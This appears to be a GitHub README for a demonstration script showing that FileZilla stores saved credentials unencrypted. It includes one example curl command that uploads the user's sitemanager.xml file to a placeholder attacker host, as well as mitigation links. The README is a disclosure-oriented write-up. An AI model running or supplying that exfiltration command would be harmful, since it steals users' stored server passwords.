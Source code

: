 # Filezilla passwords revealer

This is a small script to demonstrate that the Filezilla credentials are stored **unencrypted** on the local drive and that any program, malware, or even node module running on your machine can trivially access them.  

A single bash command is enough! `curl -F "credentials=@~/.filezilla/sitemanager.xml" attacker.com/credentials.php
` reads the local preference file and uploads it to a remote website.

### Running

- Clone this repository
- `npm install`
- `node index.js`

Or simply copy paste this script in your terminal

```
git clone https://github.com/christophetd/filezilla-passwords-revealer.git
cd filezilla-passwords-revealer
npm install
node index.js
```

(Disclaimer: copy pasting bash commands in your terminal [is a terrible practice](https://thejh.net/misc/website-terminal-copy-paste) security-wise

### Resources

- « *[Making FileZilla FTP Client's passwords more secure with TrueCrypt](http://www.trailheadinteractive.com/making_filezilla_ftp_client039s_passwords_more_secure)* ». Note that you should use [VeraCrypt](https://veracrypt.codeplex.com/) instead of TrueCrypt since the latter is now deprecated.
- Some of the numerous feature requests on the official bug tracker : [#5530](https://trac.filezilla-project.org/ticket/5530), [#2935](https://trac.filezilla-project.org/ticket/2935), [#3176](https://trac.filezilla-project.org/ticket/3176)

